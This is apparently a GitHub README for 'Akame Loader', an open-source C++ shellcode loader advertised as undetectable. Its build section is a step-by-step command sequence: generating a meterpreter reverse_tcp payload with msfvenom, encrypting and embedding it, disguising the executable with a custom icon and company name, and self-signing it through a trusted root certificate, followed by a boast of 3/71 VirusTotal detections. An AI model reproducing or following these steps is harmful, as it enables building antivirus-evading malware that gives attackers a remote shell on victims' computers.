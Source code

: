 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD shellcode loader written in C++17</h4>

## Details

## Build instructions
**1. Generate a shellcode with metasploit<br>**
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin <br>
**2. Encrypt your shellcode with encrypt.exe<br>**
mv shellcode.bin \Akame Loader\x64\Release\Resources\<br>
cd \Akame Loader\x64\Release\Resources\<br>
(optional) encrypt --help<br>
encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>
**3. Copy the output and paste it under the "payload" comment<br>**
Paste your IV key, your KEY and your BUFF into the existent vectors<br>
**4. Change the resources<br>**
Add your icon, your company name, etc.<br>
**5. Build the project<br>**
Language standard: ISO C++17<br>
Configuration: Release<br>
Platform: x64<br>
Runtime Library: Multi-Threaded (/MT)<br>
SubSystem: Windows<br>
Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
**6. Add a certificate to your executable<br>**
move Akame.exe Resources && cd Resources<br>
makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
certutil -user -addstore Root AkameCA.cer<br>
makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe<br>
! Change "Akame.exe" to whatever your executable name is<br>

## VirusTotal Scan (3/71 security vendors and no sandboxes)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
